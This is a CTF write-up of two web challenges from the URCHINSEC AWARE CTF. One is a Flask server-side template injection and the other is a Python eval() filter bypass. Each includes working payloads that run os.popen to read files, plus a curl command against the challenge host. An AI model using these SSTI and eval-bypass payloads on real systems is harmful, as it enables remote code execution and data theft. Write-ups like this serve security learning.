 ---------------

### CTF: URCHINSEC AWARE CTF

--------------

![image](https://github.com/user-attachments/assets/21dcb944-92b5-4150-b742-71e140fe3c3c)

--------------

### CHALLENGES:

- Web:
  - Notee
  - Pyrison
- Securecode Reviewing
  - Heart
  - Redhand
  - Syringe

-----------------

### WEB:

-----------------

### Notee:

![image](https://github.com/user-attachments/assets/55fbe0a9-917e-4d43-8538-fae02180f615)

- The challenge's main vulnerability is `Server Side Template Injection` and the code detailed below shows the sink.

```python3
@app.route('/<username>/note/<id>/comment', methods=['GET'])
def get_comments_note(username, id):
    note = Note.query.filter_by(id=id).first()
    if note is not None:
        # check if username inserted matches the note
        if note.username == username:
            return render_template_string(note.comment)
        else:
            return abort(403)
    else:
        return abort(404)
```
- Route `/<username>/note/<id>/comment` takes in the `comment` key retrieved from the `note` variable and passes it to `render_template_string` which is vulnerable to the sink.The note's variable is from the `POST` parameters filled in the index page.The main point to pass the payload is the `comment` input box.

```python3
@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        username = request.form.get('username')
        title = request.form.get('title')
        description = request.form.get('description')
        comment = request.form.get('comment')
        user_ip = request.remote_addr
```

### Exploitation

- I added the payload below to the comment box.

```python3
{{x.__init__.__globals__['__builtins__']['__import__']('os').popen('cat /*').read()}}
```
![image](https://github.com/user-attachments/assets/c3b06971-5cb1-4841-b4b6-a2004079a935)

- I retrieved the flag with `curl`.

![image](https://github.com/user-attachments/assets/2a322d84-6257-434c-9963-4c673f03a37b)

- Flag-:```urchinsec{W3_KEEP_NOTES_SAfe_f0r_ouR_S3cr3t_r3cipesss}```

---------------------

### Pyrison

![image](https://github.com/user-attachments/assets/c714af89-b059-493c-9800-b1a93da2633c)

- This challenge requires blackbox testing because no source code was provided but based on the author's choice of name.I deduced that the backend is python and values are passed to `eval()` in python but some special keywords are filtered.
- I tested `7*7` and got the value `49` which signifies that my deductions are accurate.

![image](https://github.com/user-attachments/assets/113835e1-cf4c-49d3-aa86-eba45b42b466)

- I also tried `import` to import modules but I noticed that the author blacklisted it.

![image](https://github.com/user-attachments/assets/a1216e31-aacf-4ed6-9e02-6fe2b84ce1af)

- I tried the next method by passing `eval("__IMPORT__".lower())` which worked because the filter is not case sensitive and picks only `import` in lowercase and not in uppercase.I passed the uppercase `import` to the `lower()` to convert it to lowercase which is evaluated later with the `eval()` function.You can see below that we've successfully called the `import` function.

![image](https://github.com/user-attachments/assets/4e11ab0b-0e79-48e1-8d2d-a277e05cf148)

- Now,we can import module we like and gain RCE, I picked `os.popen` to read the flag.

Final Payload-:```curl https://urchinsec-pyrison.chals.io/test/trick -X POST -d "query=eval('__IMPORT__'.lower())('os').popen('cat /*').read()"```

![image](https://github.com/user-attachments/assets/cd7f553e-22bb-4214-9b41-ccf615fba9fb)

- Flag-:```urchinsec{H3r3_we_go_again_byp4ssing_evals_f0rFUN}```















